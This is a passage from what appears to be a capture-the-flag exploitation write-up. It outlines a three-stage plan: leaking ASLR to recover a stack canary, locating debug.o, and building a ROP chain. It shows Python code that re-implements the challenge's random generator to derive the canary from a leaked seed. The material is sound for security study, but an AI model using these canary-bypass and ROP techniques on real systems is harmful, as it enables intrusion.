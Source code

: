 Summary:
- Stage 1: Leak ASLR --> Canary
- Stage 2: Get address of debug.o
- Stage 3: ROPchain

# 3. Exploit

Before we go to the exploitation, I wrote these functions to provided a handy way to exploit:

<details><summary>Code snipet</summary></details>

Because we will need to recover the seed (canary), function `rand()` will be needed.

### Stage 1: Leak ASLR --> Canary

First, we want to leak all the aslr so let's debug with gdb first to get the correspond address and the order of each address. Debug file loader with gdb-gef and we can get the data from `/dev/urandom`:

![random-seed-gdb.png](images/random-seed-gdb.png)

And with python function `rand()` above, we can calculate 7 values from `rand(12)`:

```python
>>> def rand_extract_bit(bit):
...     global rand_state
...     return (rand_state >> bit) & 1
... 
>>> def rand_get_bit():
...     global rand_state
...     bit0 = rand_extract_bit(63)
...     bit1 = rand_extract_bit(61) ^ bit0
...     bit2 = rand_extract_bit(60) ^ bit1
...     bit4 = rand_extract_bit(58) ^ bit2 ^ 1
...     rand_state = ((2 * rand_state) | bit4) & 0xffffffffffffffff
...     return bit4
... 
>>> def rand(bit):
...     num = 0
...     for i in range(bit):
...             b = rand_get_bit()
...             num = (2 * num) | b
...     return num
...
>>> rand_state = 0x376f5a42c42dc2c3
>>> hex(rand(64))
'0x43bc56f88fb37843'        # This will be canary and seed for rand(12)
```